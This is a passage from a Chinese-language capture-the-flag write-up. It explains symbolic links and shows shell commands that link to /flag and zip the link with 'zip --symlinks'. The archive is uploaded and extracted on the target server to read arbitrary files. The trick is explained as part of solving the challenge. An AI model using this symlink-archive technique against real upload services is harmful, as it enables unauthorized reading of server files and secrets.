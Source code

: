 #### 测试环境

以上测试只在

**py2.7 py3.7 py3.8 py3.10(只有这个为windows)**

下进行，如果其他版本也有区别，欢迎补充

#### 软链接

顺便在这里提下mtctf中算pin的很关键的软链接查看文件

软链接其是就和名字的意思一样，指向一个文件的链接

```sh
xlccccc@xl-pc:/ctf/web/mtb$ ls
1.py  123.py  __pycache__  app.py  index.html  test.py  uploads
xlccccc@xl-pc:/ctf/web/mtb$ ln -s /flag flag
xlccccc@xl-pc:/ctf/web/mtb$ ls
1.py  123.py  __pycache__  app.py  flag  index.html  test.py  uploads
xlccccc@xl-pc:/ctf/web/mtb$ cat flag
flag{I_4m_x1cCcCC}
```

而本题是可以上传压缩包，然后在**他的环境下解压**

我们就可以上传一个软链接的压缩包在他的环境下解压后访问任意文件了

```sh
zip --symlinks flag.zip flag
```

注意一定要是`symlinks`方法下，否则压缩的就是你软链接指向的那个文件

